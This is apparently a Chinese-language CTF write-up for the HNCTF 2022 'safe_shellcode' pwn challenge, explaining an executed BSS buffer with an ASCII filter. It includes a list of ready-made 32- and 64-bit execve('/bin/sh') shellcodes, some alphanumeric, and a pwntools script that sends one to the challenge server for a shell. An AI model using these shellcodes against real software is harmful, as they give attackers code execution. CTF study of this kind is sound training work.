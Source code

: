 # [HNCTF 2022 Week1]safe_shellcode

![image-20250128185417812](./../images/image-20250128185417812.png)

首先检查保护

然后进入主程序分析![NSSIMAGE](./../images/6537bfe960.jpg)

发现了这个程序中有s变量溢出漏洞。并且他还将
s变量里的值直接存入buff中，这个buff指向的地址就是bss段。
在这个程序的最后还调用了buff这个地址，也就是说我们甚至都不需要栈溢出把返回地址改为bss段的地址。
现在我们只需要想办法绕过这个判断，也就是输入的数值必须是47-122之间的ascii码。
47-122之间的ascii码不就是0-9，A-Z，a-z都可以输入。
这里直接使用我们的shellcode集中的可视化shellcode就行了。

```bash
# 32位 短字节shellcode --> 21字节
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80

# 32位 纯ascii字符shellcode
PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJISZTK1HMIQBSVCX6MU3K9M7CXVOSC3XS0BHVOBBE9RNLIJC62ZH5X5PS0C0FOE22I2NFOSCRHEP0WQCK9KQ8MK0AA

# 32位 scanf可读取的shellcode
\xeb\x1b\x5e\x89\xf3\x89\xf7\x83\xc7\x07\x29\xc0\xaa\x89\xf9\x89\xf0\xab\x89\xfa\x29\xc0\xab\xb0\x08\x04\x03\xcd\x80\xe8\xe0\xff\xff\xff/bin/sh

# 64位 scanf可读取的shellcode 22字节
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05

# 64位 较短的shellcode  23字节
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05

# 64位 纯ascii字符shellcode
Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t

```

接下来exp编写就很简单了只需要把我们的shellcode发送过去就可以了。

exp

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

p = remote('node5.anna.nssctf.cn',28237)
#p = process()

shellcode = "Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t"

p.send(shellcode)

p.interactive()
```

